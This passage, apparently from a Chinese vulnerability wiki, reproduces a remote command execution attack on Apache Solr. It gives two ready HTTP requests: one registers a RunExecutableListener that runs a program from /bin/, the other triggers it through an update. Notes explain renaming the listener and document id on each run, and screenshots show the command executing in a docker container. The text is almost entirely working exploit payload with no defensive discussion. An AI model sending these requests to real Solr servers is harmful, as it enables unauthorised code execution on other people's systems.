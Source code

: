 ```json
POST /solr/demo/config HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener-1",
    "class":"solr.RunExecutableListener",
    "exe":"ping",
    "dir":"/bin/",
    "args":["1.1.1.1"]
  }
}
```

![](http://wikioss.peiqi.tech/vuln/solr-8.png)

第二个请求包用于更新缓存并执行命令

```json
POST /solr/demo/update HTTP/1.1
Host: xxx.xxx.xxx.xxx:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

[{"id":"test"}]
```

![](http://wikioss.peiqi.tech/vuln/solr-9.png)

> [!NOTE]
>
> 注意 第一个请求包的这个位置 "name":"newlistener-1",
>
> listerer的名字需要替换，例如第一次 为 newlistener-1 ，第二次则需要改为 newlistener-2
>
> 注意 第二个请求包的这个位置  [{"id":"test"}]，
>
> 同第一个请求包的name，每执行一次就需要更换 id ,例如第一次 为 test ，第二次则需要改为 tset-2
>
> 注意 Content-Type: application/json 需要添加

不更改执行发生报错示例

![](http://wikioss.peiqi.tech/vuln/solr-12.png)

进入docker容器查看发现命令已经执行

![](http://wikioss.peiqi.tech/vuln/solr-10.png)
